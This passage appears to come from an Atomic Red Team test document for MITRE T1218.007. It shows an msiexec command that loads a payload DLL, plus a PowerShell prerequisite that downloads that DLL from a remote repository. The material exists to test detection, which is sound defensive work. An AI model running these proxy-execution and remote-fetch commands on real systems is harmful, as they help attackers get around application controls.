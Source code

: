 

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute that has an implemented DllRegisterServer function | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;MSIRunner.dll|
| msi_exe | MSIExec File Path | path | c:&#92;windows&#92;system32&#92;msiexec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{msi_exe} /y "#{dll_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: The DLL must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.007/bin/MSIRunner.dll -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #10 - Msiexec.exe - Execute the DllUnregisterServer function of a DLL
Loads a DLL into msiexec.exe and calls its DllUnregisterServer function. Note: the DLL included in the "bin" folder is only built for 64-bit, so this won't work on a 32-bit OS.

**Supported Platforms:** Windows


**auto_generated_guid:** ab09ec85-4955-4f9c-b8e0-6851baf4d47f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute that has an implemented DllUnregisterServer function | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;MSIRunner.dll|
| msi_exe | MSIExec File Path | path | c:&#92;windows&#92;system32&#92;msiexec.exe|
